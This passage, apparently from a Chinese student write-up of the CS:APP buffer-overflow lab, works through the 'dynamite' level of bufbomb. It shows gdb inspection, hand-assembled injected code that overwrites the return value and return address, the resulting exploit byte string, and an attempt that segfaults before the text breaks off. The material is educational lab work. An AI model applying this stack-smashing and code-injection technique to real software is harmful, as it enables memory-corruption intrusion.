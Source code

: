 ```c++
   0x08049069 <+105>:   call   0x8048ae0 <validate>
   0x0804906e <+110>:   leave
   0x0804906f <+111>:   ret
End of assembler dump.

# 此外，程序不能修改原始栈帧 %ebp，通过 gdb 设断点查看
Breakpoint 1, 0x08048fe6 in getbuf ()
(gdb) si
0x08048fe9 in getbuf ()
(gdb) x/x $ebp
0xffffb4e8:     0xffffb508
```
至此可得我们需要修改 getbuf 的返回值，即修改相应 %eax 的内容，可通过类似 bang 的方法实现，过程如下。
```
# 编辑汇编代码，保存为 dynamite.s
mov 0x804a1cc,%eax         # 将 cookie 放入返回寄存器 %eax 中
push $0x0804901e           # 返回到调用 getbuf 的下一条指令处执行
ret

~/myclass/csapp$ gcc -m32 -c dynamite.s
dynamite.s: Assembler messages:
dynamite.s: Warning: end of file not at end of a line; newline inserted
~/myclass/csapp$ objdump -d dynamite.o

dynamite.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 cc a1 04 08          mov    0x804a1cc,%eax
   5:   68 1e 90 04 08          push   $0x804901e
   a:   c3                      ret

# 编辑 string 部分，思路同 bang
a1 cc a1 04
08 68 1e 90
04 08 c3 00
e8 b4 ff ff
dc b4 ff ff

# 进行攻击
~/myclass/csapp$ ./sendstring < dynamite.txt > exploit_dynamite.txt
~/myclass/csapp$ ./bufbomb -t SA19225374+SA19225417+SA19225525 < exploit_dynamite.txt
Team: SA19225374+SA19225417+SA19225525
Cookie: 0x46110021
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
~/myclass/csapp$ gdb bufbomb
Type "apropos word" to search for commands related to "word"...
Reading symbols from bufbomb...done.
(gdb) r -t SA19225374+SA19225417+SA19225525 < exploit_dynamite.txt
```
